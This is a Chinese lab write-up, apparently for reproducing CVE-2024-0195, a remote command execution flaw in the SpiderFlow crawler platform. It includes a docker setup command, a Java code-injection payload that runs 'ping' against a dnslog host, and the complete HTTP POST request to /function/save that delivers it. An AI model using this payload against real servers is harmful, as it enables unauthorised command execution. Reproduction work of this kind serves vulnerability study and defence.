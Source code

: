 # CVE-2024-0195-SpiderFlow爬虫平台远程命令执行漏洞

spider-flow 是一个爬虫平台，以图形化方式定义爬虫流程，无需代码即可实现一个爬虫

官网地址：https://www.spiderflow.org/

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0195
- https://blog.csdn.net/shelter1234567/article/details/135676548

## 漏洞环境

执行如下命令启动一个spiderflow-v0.5.0-web：

执行如下命令启动一个Tomcat 9.0.30：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`无需登录即可查看spiderflow页面。



## 漏洞复现

在平台spiderflow的页面中有一个自定义函数

![image-20240229155240809](./1.png)

构造payload

![image-20240229160025959](./2.png)

```
return java.lang./****/Runtime};r=test();r.getRuntime().exec('ping 18k2tu.dnslog.cn');{
```

查看dnslog回显

![image-20240229160230327](./3.png)

burp发包

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```

